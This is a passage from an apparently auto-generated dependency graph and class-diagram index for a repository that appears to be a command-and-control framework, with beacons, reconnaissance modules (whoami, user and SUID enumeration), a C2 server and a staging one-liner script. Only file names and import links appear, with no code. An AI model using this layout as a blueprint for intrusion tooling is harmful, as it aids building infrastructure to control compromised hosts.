    src_bof_streaming__large_outputs__c["bof_streaming_(large_outputs).c (c)"]
    class src_bof_streaming__large_outputs__c mod;
    src_c2_rest_api_c["c2_rest_api.c (c)"]
    class src_c2_rest_api_c mod;
    src_certificate_pinning___tofu_c["certificate_pinning___tofu.c (c)"]
    class src_certificate_pinning___tofu_c mod;
    src_command_execution_via_execve_c["command_execution_via_execve.c (c)"]
    class src_command_execution_via_execve_c mod;
    src_hkdf_key_derivation_c["hkdf_key_derivation.c (c)"]
    class src_hkdf_key_derivation_c mod;
    src_iv_generation_with_entropy_verification_c["iv_generation_with_entropy_verification.c (c)"]
    class src_iv_generation_with_entropy_verification_c mod;
    src_mutation_testing_integration_c["mutation_testing_integration.c (c)"]
    class src_mutation_testing_integration_c mod;
    src_replay_protection_c["replay_protection.c (c)"]
    class src_replay_protection_c mod;
    src_socks5___http_proxy_support_c["socks5___http_proxy_support.c (c)"]
    class src_socks5___http_proxy_support_c mod;
    src_structured_jsonl_logging_c["structured_jsonl_logging.c (c)"]
    class src_structured_jsonl_logging_c mod;
    src_tls_client_certificate_authentication_c["tls_client_certificate_authentication.c (c)"]
    class src_tls_client_certificate_authentication_c mod;
    src_unified_config_schema_c["unified_config_schema.c (c)"]
    class src_unified_config_schema_c mod;
    end
    subgraph community_6 ["mutants/src: beacon_common.c_extraction"]
    mutants_src_beacon_common_c_extraction_c["beacon_common.c_extraction.c (c)"]
    class mutants_src_beacon_common_c_extraction_c mod;
    end
    subgraph community_14 ["mutants/src: containerized_build_+_sbom"]
    mutants_src_containerized_build___sbom_c["containerized_build_+_sbom.c (c)"]
    class mutants_src_containerized_build___sbom_c mod;
    end
    subgraph community_18 ["mutants/src: pre-commit_+_ci_hardening"]
    mutants_src_pre_commit___ci_hardening_c["pre-commit_+_ci_hardening.c (c)"]
    class mutants_src_pre_commit___ci_hardening_c mod;
    src_beacon_common_c_extraction_c["beacon_common.c_extraction.c (c)"]
    class src_beacon_common_c_extraction_c mod;
    src_containerized_build___sbom_c["containerized_build_+_sbom.c (c)"]
    class src_containerized_build___sbom_c mod;
    src_pre_commit___ci_hardening_c["pre-commit_+_ci_hardening.c (c)"]
    class src_pre_commit___ci_hardening_c mod;
    aes_h["aes.h (h)"]
    class aes_h mod;
    include_aes_h["aes.h (h)"]
    class include_aes_h mod;
    include_config_h["config.h (h)"]
    class include_config_h mod;
    beacon_h["beacon.h (h)"]
    class beacon_h mod;
    include_beacon_h["beacon.h (h)"]
    class include_beacon_h mod;
    include_config_autogen_h["config_autogen.h (h)"]
    class include_config_autogen_h mod;
    bof_c["bof.c (c)"]
    class bof_c mod;
    cJSON_h["cJSON.h (h)"]
    class cJSON_h mod;
    include_cJSON_h["cJSON.h (h)"]
    class include_cJSON_h mod;
    bof_include_syscalls_h["syscalls.h (h)"]
    class bof_include_syscalls_h mod;
    include_aes_cfb_h["aes_cfb.h (h)"]
    class include_aes_cfb_h mod;
    app_py["app.py (py)"]
    class app_py mod;
    bof_is_sudo_is_sudo_c["is_sudo.c (c)"]
    class bof_is_sudo_is_sudo_c mod;
    issudo_c["issudo.c (c)"]
    class issudo_c mod;
    bof_whoami_whoami_c["whoami.c (c)"]
    class bof_whoami_whoami_c mod;
    bof_userenum_userenum_c["userenum.c (c)"]
    class bof_userenum_userenum_c mod;
    bof_cat_cat_c["cat.c (c)"]
    class bof_cat_cat_c mod;
    include_async_i_o_for_beacon_h["async_i_o_for_beacon.h (h)"]
    class include_async_i_o_for_beacon_h mod;
    include_beacon_heartbeat___health_endpoint_h["beacon_heartbeat___health_endpoint.h (h)"]
    class include_beacon_heartbeat___health_endpoint_h mod;
    include_bof_api_versioning_h["bof_api_versioning.h (h)"]
    class include_bof_api_versioning_h mod;
    include_bof_path_traversal_hardening_h["bof_path_traversal_hardening.h (h)"]
    class include_bof_path_traversal_hardening_h mod;
    include_bof_streaming__large_outputs__h["bof_streaming_(large_outputs).h (h)"]
    class include_bof_streaming__large_outputs__h mod;
    include_c2_rest_api_h["c2_rest_api.h (h)"]
    class include_c2_rest_api_h mod;
    include_certificate_pinning___tofu_h["certificate_pinning___tofu.h (h)"]
    class include_certificate_pinning___tofu_h mod;
    include_command_execution_via_execve_h["command_execution_via_execve.h (h)"]
    class include_command_execution_via_execve_h mod;
    include_hkdf_key_derivation_h["hkdf_key_derivation.h (h)"]
    class include_hkdf_key_derivation_h mod;
    include_iv_generation_with_entropy_verification_h["iv_generation_with_entropy_verification.h (h)"]
    class include_iv_generation_with_entropy_verification_h mod;
    include_mutation_testing_integration_h["mutation_testing_integration.h (h)"]
    class include_mutation_testing_integration_h mod;
    include_replay_protection_h["replay_protection.h (h)"]
    class include_replay_protection_h mod;
    include_socks5___http_proxy_support_h["socks5___http_proxy_support.h (h)"]
    class include_socks5___http_proxy_support_h mod;
    include_structured_jsonl_logging_h["structured_jsonl_logging.h (h)"]
    class include_structured_jsonl_logging_h mod;
    include_tls_client_certificate_authentication_h["tls_client_certificate_authentication.h (h)"]
    class include_tls_client_certificate_authentication_h mod;
    include_unified_config_schema_h["unified_config_schema.h (h)"]
    class include_unified_config_schema_h mod;
    include_beacon_common_c_extraction_h["beacon_common.c_extraction.h (h)"]
    class include_beacon_common_c_extraction_h mod;
    include_containerized_build___sbom_h["containerized_build_+_sbom.h (h)"]
    class include_containerized_build___sbom_h mod;
    include_pre_commit___ci_hardening_h["pre-commit_+_ci_hardening.h (h)"]
    class include_pre_commit___ci_hardening_h mod;
    c2___init___py["__init__.py (py)"]
    class c2___init___py mod;
    c2_stage_oneliner_sh["stage_oneliner.sh (sh)"]
    class c2_stage_oneliner_sh mod;
    install_sh["install.sh (sh)"]
    class install_sh mod;
    mutants_tests_test_beacon_common_c_extraction_py["test_beacon_common.c_extraction.py (py)"]
    class mutants_tests_test_beacon_common_c_extraction_py mod;
    mutants_tests_test_containerized_build___sbom_py["test_containerized_build_+_sbom.py (py)"]
    class mutants_tests_test_containerized_build___sbom_py mod;
    mutants_tests_test_pre_commit___ci_hardening_py["test_pre-commit_+_ci_hardening.py (py)"]
    class mutants_tests_test_pre_commit___ci_hardening_py mod;
    mutmut_config_py["mutmut_config.py (py)"]
    class mutmut_config_py mod;
    end
    tests_test_hkdf_key_derivation_py ~~~ tests_test_stage_py
    tests_test_certificate_pinning_py ~~~ tests_test_iv_generation_py
    mutants_tests_test_c2_http_e2e_py ~~~ tests_test_replay_protection_py
    c2_server_py ~~~ tests_test_bof_path_traversal_py
    tests_test_c2_http_e2e_py ~~~ tests_test_crypto_py
    tests_test_c2_beacon_bof_integration_py ~~~ tests_test_runtime_random_py
    tests_test_stage_py ~~~ mutants_tests_test_c2_server_py
    tests_test_iv_generation_py ~~~ mutants_tests_test_certificate_pinning_py
    tests_test_replay_protection_py ~~~ tests_test_c2_server_py
    tests_test_bof_path_traversal_py ~~~ include_config_py_py
    tests_test_crypto_py ~~~ c2___init___py
    legacy_beacon5_c ~~~ legacy_v1_gopher_beacon_c
    legacy_beacon_p2p_c ~~~ beacons_v2_beacon_c
    legacy_beacon6_c ~~~ tests_test_iv_generation_c_c
    include_beacon_common_c ~~~ cJSON_c
    legacy_beacon3_c ~~~ include_cJSON_c
    legacy_gopher_beacon_c ~~~ beacons_v3_beacon_c
    legacy_v1_gopher_beacon_c ~~~ beacons_v1_beacon_c
    beacons_v2_beacon_c ~~~ include_beacon_common_h
    tests_test_iv_generation_c_c ~~~ aes_c
    cJSON_c ~~~ aes_h
    include_cJSON_c ~~~ beacon_h
    beacons_v3_beacon_c ~~~ bof_c
    beacons_v1_beacon_c ~~~ cJSON_h
    include_beacon_common_h ~~~ include_cJSON_h
    mutants_tests_test_crypto_py ~~~ mutants_tests_test_install_deploy_py
    gopher_c2_py ~~~ include_config_py_autogen_py
    c2_stage_payload_py ~~~ contract_agent_py
    mutants_tests_test_config_py ~~~ tests_test_execve_command_py
    scripts_mutation_test_c_py ~~~ tests_test_install_deploy_py
    tests_test_config_py ~~~ mutants_tests_test_async_i_o_for_beacon_py
    mutants_tests_test_install_deploy_py ~~~ mutants_tests_test_beacon_heartbeat___health_endpoint_py
    include_config_py_autogen_py ~~~ mutants_tests_test_bof_api_versioning_py
    contract_agent_py ~~~ mutants_tests_test_bof_path_traversal_hardening_py
    tests_test_execve_command_py ~~~ mutants_tests_test_bof_streaming__large_outputs__py
    tests_test_install_deploy_py ~~~ mutants_tests_test_c2_rest_api_py
    mutants_tests_test_async_i_o_for_beacon_py ~~~ mutants_tests_test_certificate_pinning___tofu_py
    mutants_tests_test_beacon_heartbeat___health_endpoint_py ~~~ mutants_tests_test_command_execution_via_execve_py
    mutants_tests_test_bof_api_versioning_py ~~~ mutants_tests_test_hkdf_key_derivation_py
    mutants_tests_test_bof_path_traversal_hardening_py ~~~ mutants_tests_test_iv_generation_with_entropy_verification_py
    mutants_tests_test_bof_streaming__large_outputs__py ~~~ mutants_tests_test_mutation_testing_integration_py
    mutants_tests_test_c2_rest_api_py ~~~ mutants_tests_test_replay_protection_py
    mutants_tests_test_certificate_pinning___tofu_py ~~~ mutants_tests_test_socks5___http_proxy_support_py
    mutants_tests_test_command_execution_via_execve_py ~~~ mutants_tests_test_structured_jsonl_logging_py
    mutants_tests_test_hkdf_key_derivation_py ~~~ mutants_tests_test_tls_client_certificate_authentication_py
    mutants_tests_test_iv_generation_with_entropy_verification_py ~~~ mutants_tests_test_unified_config_schema_py
    mutants_tests_test_mutation_testing_integration_py ~~~ mutants_tests_test_beacon_build_py
    mutants_tests_test_replay_protection_py ~~~ mutants_tests_test_bof_compile_py
    mutants_tests_test_socks5___http_proxy_support_py ~~~ mutants_tests_test_async_i_o_for_beacon_c_c
    mutants_tests_test_structured_jsonl_logging_py ~~~ mutants_tests_test_beacon_heartbeat___health_endpoint_c_c
    mutants_tests_test_tls_client_certificate_authentication_py ~~~ mutants_tests_test_bof_api_versioning_c_c
    mutants_tests_test_unified_config_schema_py ~~~ mutants_tests_test_bof_path_traversal_hardening_c_c
    mutants_tests_test_beacon_build_py ~~~ mutants_tests_test_bof_streaming__large_outputs__c_c
    mutants_tests_test_bof_compile_py ~~~ mutants_tests_test_c2_rest_api_c_c
    mutants_tests_test_async_i_o_for_beacon_c_c ~~~ mutants_tests_test_certificate_pinning___tofu_c_c
    mutants_tests_test_beacon_heartbeat___health_endpoint_c_c ~~~ mutants_tests_test_command_execution_via_execve_c_c
    mutants_tests_test_bof_api_versioning_c_c ~~~ mutants_tests_test_hkdf_key_derivation_c_c
    mutants_tests_test_bof_path_traversal_hardening_c_c ~~~ mutants_tests_test_iv_generation_with_entropy_verification_c_c
    mutants_tests_test_bof_streaming__large_outputs__c_c ~~~ mutants_tests_test_mutation_testing_integration_c_c
    mutants_tests_test_c2_rest_api_c_c ~~~ mutants_tests_test_replay_protection_c_c
    mutants_tests_test_certificate_pinning___tofu_c_c ~~~ mutants_tests_test_socks5___http_proxy_support_c_c
    mutants_tests_test_command_execution_via_execve_c_c ~~~ mutants_tests_test_structured_jsonl_logging_c_c
    mutants_tests_test_hkdf_key_derivation_c_c ~~~ mutants_tests_test_tls_client_certificate_authentication_c_c
    mutants_tests_test_iv_generation_with_entropy_verification_c_c ~~~ mutants_tests_test_unified_config_schema_c_c
    mutants_tests_test_mutation_testing_integration_c_c ~~~ mutants_tests_test_beacon_common_c_extraction_c_c
    mutants_tests_test_replay_protection_c_c ~~~ mutants_tests_test_containerized_build___sbom_c_c
    mutants_tests_test_socks5___http_proxy_support_c_c ~~~ mutants_tests_test_pre_commit___ci_hardening_c_c
    mutants_tests_test_structured_jsonl_logging_c_c ~~~ tests_test_beacon_build_py
    mutants_tests_test_tls_client_certificate_authentication_c_c ~~~ config_generate_parsers_py
    mutants_tests_test_unified_config_schema_c_c ~~~ tests_test_bof_compile_py
    mutants_tests_test_beacon_common_c_extraction_c_c ~~~ include_beacon_h
    mutants_tests_test_containerized_build___sbom_c_c ~~~ app_py
    mutants_tests_test_pre_commit___ci_hardening_c_c ~~~ bof_is_sudo_is_sudo_c
    tests_test_beacon_build_py ~~~ issudo_c
    config_generate_parsers_py ~~~ bof_whoami_whoami_c
    tests_test_bof_compile_py ~~~ bof_userenum_userenum_c
    include_beacon_h ~~~ bof_cat_cat_c
    app_py ~~~ c2_stage_oneliner_sh
    bof_is_sudo_is_sudo_c ~~~ install_sh
    issudo_c ~~~ mutants_tests_test_beacon_common_c_extraction_py
    bof_whoami_whoami_c ~~~ mutants_tests_test_containerized_build___sbom_py
    bof_userenum_userenum_c ~~~ mutants_tests_test_pre_commit___ci_hardening_py
    bof_cat_cat_c ~~~ mutmut_config_py
    bof_suid_enum_bof_c ~~~ bof_include_syscalls_h
    aes_c -- resolved_imports --> aes_h
    beacons_v1_beacon_c -- resolved_imports --> include_beacon_common_h
    beacons_v2_beacon_c -- resolved_imports --> include_beacon_common_h
    beacons_v3_beacon_c -- resolved_imports --> include_beacon_common_h
    bof_cat_bof_c -- resolved_imports --> bof_include_beacon_api_h
    bof_cat_bof_c -- resolved_imports --> bof_include_syscalls_h
    bof_is_sudo_bof_c -- resolved_imports --> bof_include_beacon_api_h
    bof_is_sudo_bof_c -- resolved_imports --> bof_include_syscalls_h
    bof_suid_enum_bof_c -- resolved_imports --> bof_include_beacon_api_h
    bof_suid_enum_bof_c -- resolved_imports --> bof_include_syscalls_h
    bof_userenum_bof_c -- resolved_imports --> bof_include_beacon_api_h
    bof_userenum_bof_c -- resolved_imports --> bof_include_syscalls_h
    bof_whoami_bof_c -- resolved_imports --> bof_include_beacon_api_h
    bof_whoami_bof_c -- resolved_imports --> bof_include_syscalls_h
    bof_c -- resolved_imports --> beacon_h
    c2_server_py -- resolved_imports --> include_config_py_py
    cJSON_c -- resolved_imports --> cJSON_h
    include_aes_c -- resolved_imports --> include_aes_h
    include_aes_cfb_c -- resolved_imports --> include_aes_h
    include_aes_cfb_c -- resolved_imports --> include_aes_cfb_h
    include_beacon_common_c -- resolved_imports --> include_beacon_common_h
    include_beacon_common_c -- resolved_imports --> include_aes_h
    include_beacon_common_c -- resolved_imports --> include_cJSON_h
    include_beacon_common_h -- resolved_imports --> include_config_h
    include_cJSON_c -- resolved_imports --> include_cJSON_h
    include_config_c -- resolved_imports --> include_config_h
    include_config_autogen_c -- resolved_imports --> include_config_autogen_h
    mutants_src_async_i_o_for_beacon_c -- resolved_imports --> include_async_i_o_for_beacon_h
    mutants_src_beacon_common_c_extraction_c -- resolved_imports --> include_beacon_common_c_extraction_h
    mutants_src_beacon_heartbeat___health_endpoint_c -- resolved_imports --> include_beacon_heartbeat___health_endpoint_h
    mutants_src_bof_api_versioning_c -- resolved_imports --> include_bof_api_versioning_h
    mutants_src_bof_path_traversal_hardening_c -- resolved_imports --> include_bof_path_traversal_hardening_h
    mutants_src_bof_streaming__large_outputs__c -- resolved_imports --> include_bof_streaming__large_outputs__h
    mutants_src_c2_rest_api_c -- resolved_imports --> include_c2_rest_api_h
    mutants_src_certificate_pinning___tofu_c -- resolved_imports --> include_certificate_pinning___tofu_h
    mutants_src_command_execution_via_execve_c -- resolved_imports --> include_command_execution_via_execve_h
    mutants_src_containerized_build___sbom_c -- resolved_imports --> include_containerized_build___sbom_h
    mutants_src_hkdf_key_derivation_c -- resolved_imports --> include_hkdf_key_derivation_h
    mutants_src_iv_generation_with_entropy_verification_c -- resolved_imports --> include_iv_generation_with_entropy_verification_h
    mutants_src_mutation_testing_integration_c -- resolved_imports --> include_mutation_testing_integration_h
    mutants_src_pre_commit___ci_hardening_c -- resolved_imports --> include_pre_commit___ci_hardening_h
    mutants_src_replay_protection_c -- resolved_imports --> include_replay_protection_h
    mutants_src_socks5___http_proxy_support_c -- resolved_imports --> include_socks5___http_proxy_support_h
    mutants_src_structured_jsonl_logging_c -- resolved_imports --> include_structured_jsonl_logging_h
    mutants_src_tls_client_certificate_authentication_c -- resolved_imports --> include_tls_client_certificate_authentication_h
    mutants_src_unified_config_schema_c -- resolved_imports --> include_unified_config_schema_h
    mutants_tests_config_harness_c -- resolved_imports --> include_config_h
    mutants_tests_crypto_harness_c -- resolved_imports --> include_aes_cfb_h
    mutants_tests_test_c2_http_e2e_py -- resolved_imports --> c2___init___py
    mutants_tests_test_c2_server_py -- resolved_imports --> c2_server_py
    mutants_tests_test_certificate_pinning_py -- resolved_imports --> include_config_py_py
    src_async_i_o_for_beacon_c -- resolved_imports --> include_async_i_o_for_beacon_h
    src_beacon_common_c_extraction_c -- resolved_imports --> include_beacon_common_c_extraction_h
    src_beacon_heartbeat___health_endpoint_c -- resolved_imports --> include_beacon_heartbeat___health_endpoint_h
    src_bof_api_versioning_c -- resolved_imports --> include_bof_api_versioning_h
    src_bof_path_traversal_hardening_c -- resolved_imports --> include_bof_path_traversal_hardening_h
    src_bof_streaming__large_outputs__c -- resolved_imports --> include_bof_streaming__large_outputs__h
    src_c2_rest_api_c -- resolved_imports --> include_c2_rest_api_h
    src_certificate_pinning___tofu_c -- resolved_imports --> include_certificate_pinning___tofu_h
    src_command_execution_via_execve_c -- resolved_imports --> include_command_execution_via_execve_h
    src_containerized_build___sbom_c -- resolved_imports --> include_containerized_build___sbom_h
    src_hkdf_key_derivation_c -- resolved_imports --> include_hkdf_key_derivation_h
    src_iv_generation_with_entropy_verification_c -- resolved_imports --> include_iv_generation_with_entropy_verification_h
    src_mutation_testing_integration_c -- resolved_imports --> include_mutation_testing_integration_h
    src_pre_commit___ci_hardening_c -- resolved_imports --> include_pre_commit___ci_hardening_h
    src_replay_protection_c -- resolved_imports --> include_replay_protection_h
    src_socks5___http_proxy_support_c -- resolved_imports --> include_socks5___http_proxy_support_h
    src_structured_jsonl_logging_c -- resolved_imports --> include_structured_jsonl_logging_h
    src_tls_client_certificate_authentication_c -- resolved_imports --> include_tls_client_certificate_authentication_h
    src_unified_config_schema_c -- resolved_imports --> include_unified_config_schema_h
    tests_config_harness_c -- resolved_imports --> include_config_h
    tests_crypto_harness_c -- resolved_imports --> include_aes_cfb_h
    tests_test_bof_path_traversal_py -- resolved_imports --> c2_server_py
    tests_test_c2_beacon_bof_integration_py -- resolved_imports --> c2_server_py
    tests_test_c2_beacon_bof_integration_py -- resolved_imports --> include_config_py_py
    tests_test_c2_beacon_bof_integration_py -- resolved_imports --> include_config_py_py
    tests_test_c2_http_e2e_py -- resolved_imports --> c2___init___py
    tests_test_c2_http_e2e_py -- resolved_imports --> c2_server_py
    tests_test_c2_server_py -- resolved_imports --> c2_server_py
    tests_test_certificate_pinning_py -- resolved_imports --> include_config_py_py
    tests_test_certificate_pinning_py -- resolved_imports --> c2_server_py
    tests_test_certificate_pinning_py -- resolved_imports --> c2_server_py
    tests_test_certificate_pinning_c_c -- resolved_imports --> include_config_h
    tests_test_crypto_py -- resolved_imports --> c2_server_py
    tests_test_hkdf_key_derivation_py -- resolved_imports --> include_config_py_py
    tests_test_hkdf_key_derivation_c_c -- resolved_imports --> include_config_h
    tests_test_iv_generation_py -- resolved_imports --> include_config_py_py
    tests_test_iv_generation_py -- resolved_imports --> c2_server_py
    tests_test_iv_generation_c_c -- resolved_imports --> include_beacon_common_h
    tests_test_replay_protection_py -- resolved_imports --> include_config_py_py
    tests_test_replay_protection_py -- resolved_imports --> c2_server_py
    tests_test_runtime_random_py -- resolved_imports --> c2_server_py
    tests_test_runtime_random_py -- resolved_imports --> include_config_py_py
    tests_test_runtime_random_py -- resolved_imports --> c2_server_py
    tests_test_runtime_random_py -- resolved_imports --> c2_server_py
    tests_test_stage_py -- resolved_imports --> c2_server_py
    tests_test_stage_py -- resolved_imports --> c2_server_py
    ext_aes_h["aes.h"]
    class ext_aes_h ext;
    aes_c -.->|imports| ext_aes_h
    ext_string_h["string.h"]
    class ext_string_h ext;
    aes_c -.->|imports| ext_string_h
    ext_stdint_h["stdint.h"]
    class ext_stdint_h ext;
    aes_h -.->|imports| ext_stdint_h
    ext_stddef_h["stddef.h"]
    class ext_stddef_h ext;
    aes_h -.->|imports| ext_stddef_h
    ext_os["os"]
    class ext_os ext;
    app_py -.->|imports| ext_os
    beacon_h -.->|imports| ext_stdint_h
    ext_stdarg_h["stdarg.h"]
    class ext_stdarg_h ext;
    beacon_h -.->|imports| ext_stdarg_h
    ext_stdio_h["stdio.h"]
    class ext_stdio_h ext;
    beacons_v1_beacon_c -.->|imports| ext_stdio_h
    ext_stdlib_h["stdlib.h"]
    class ext_stdlib_h ext;
    beacons_v1_beacon_c -.->|imports| ext_stdlib_h
    beacons_v1_beacon_c -.->|imports| ext_string_h
    ext_unistd_h["unistd.h"]
    class ext_unistd_h ext;
    beacons_v1_beacon_c -.->|imports| ext_unistd_h
    ext_time_h["time.h"]
    class ext_time_h ext;
    beacons_v1_beacon_c -.->|imports| ext_time_h
    ext_pwd_h["pwd.h"]
    class ext_pwd_h ext;
    beacons_v1_beacon_c -.->|imports| ext_pwd_h
    ext_openssl_rand_h["rand.h"]
    class ext_openssl_rand_h ext;
    beacons_v1_beacon_c -.->|imports| ext_openssl_rand_h
    ext_beacon_common_h["beacon_common.h"]
    class ext_beacon_common_h ext;
    beacons_v1_beacon_c -.->|imports| ext_beacon_common_h
    ext_cJSON_h["cJSON.h"]
    class ext_cJSON_h ext;
    beacons_v1_beacon_c -.->|imports| ext_cJSON_h
    beacons_v2_beacon_c -.->|imports| ext_stdio_h
    beacons_v2_beacon_c -.->|imports| ext_stdlib_h
    beacons_v2_beacon_c -.->|imports| ext_string_h
    beacons_v2_beacon_c -.->|imports| ext_unistd_h
    beacons_v2_beacon_c -.->|imports| ext_time_h
    beacons_v2_beacon_c -.->|imports| ext_pwd_h
    ext_pthread_h["pthread.h"]
    class ext_pthread_h ext;
    beacons_v2_beacon_c -.->|imports| ext_pthread_h
    ext_sys_socket_h["socket.h"]
    class ext_sys_socket_h ext;
    beacons_v2_beacon_c -.->|imports| ext_sys_socket_h
    ext_netinet_in_h["in.h"]
    class ext_netinet_in_h ext;
    beacons_v2_beacon_c -.->|imports| ext_netinet_in_h
    ext_arpa_inet_h["inet.h"]
    class ext_arpa_inet_h ext;
    beacons_v2_beacon_c -.->|imports| ext_arpa_inet_h
    beacons_v2_beacon_c -.->|imports| ext_openssl_rand_h
    beacons_v2_beacon_c -.->|imports| ext_beacon_common_h
    beacons_v2_beacon_c -.->|imports| ext_cJSON_h
    beacons_v3_beacon_c -.->|imports| ext_stdio_h
    beacons_v3_beacon_c -.->|imports| ext_stdlib_h
    beacons_v3_beacon_c -.->|imports| ext_string_h
    beacons_v3_beacon_c -.->|imports| ext_unistd_h
    beacons_v3_beacon_c -.->|imports| ext_time_h
    beacons_v3_beacon_c -.->|imports| ext_pwd_h
    beacons_v3_beacon_c -.->|imports| ext_openssl_rand_h
    beacons_v3_beacon_c -.->|imports| ext_beacon_common_h
    beacons_v3_beacon_c -.->|imports| ext_cJSON_h
    ext_beacon_api_h["beacon_api.h"]
    class ext_beacon_api_h ext;
    bof_cat_bof_c -.->|imports| ext_beacon_api_h
    ext_syscalls_h["syscalls.h"]
    class ext_syscalls_h ext;
    bof_cat_bof_c -.->|imports| ext_syscalls_h
    bof_include_beacon_api_h -.->|imports| ext_stdint_h
    bof_include_beacon_api_h -.->|imports| ext_stddef_h
    bof_include_beacon_api_h -.->|imports| ext_stdarg_h
    bof_include_syscalls_h -.->|imports| ext_stddef_h
    bof_is_sudo_bof_c -.->|imports| ext_beacon_api_h
    bof_is_sudo_bof_c -.->|imports| ext_syscalls_h
    bof_suid_enum_bof_c -.->|imports| ext_beacon_api_h
    bof_suid_enum_bof_c -.->|imports| ext_syscalls_h
    bof_userenum_bof_c -.->|imports| ext_beacon_api_h
    bof_userenum_bof_c -.->|imports| ext_syscalls_h
    bof_whoami_bof_c -.->|imports| ext_beacon_api_h
    bof_whoami_bof_c -.->|imports| ext_syscalls_h
    ext_beacon_h["beacon.h"]
    class ext_beacon_h ext;
    bof_c -.->|imports| ext_beacon_h
    ext_base64["base64"]
    class ext_base64 ext;
    c2_server_py -.->|imports| ext_base64
    ext_copy["copy"]
    class ext_copy ext;
    c2_server_py -.->|imports| ext_copy
    ext_csv["csv"]
    class ext_csv ext;
    c2_server_py -.->|imports| ext_csv
```

---

## UML Class Diagram

Auto-generated Mermaid class diagrams from parsed class-level symbols, split into groups of at most 6 classes so each diagram stays readable. Per-module class diagrams with exact members live in `readmenator-apidocs/modules/`.

#### `aes.h`, `beacon.h`, `beacons/v2/beacon.c`, `bof/include/beacon_api.h`



#### `bof/suid_enum/bof.c`, `c2/server.py`



#### `cJSON.c`, `cJSON.h`

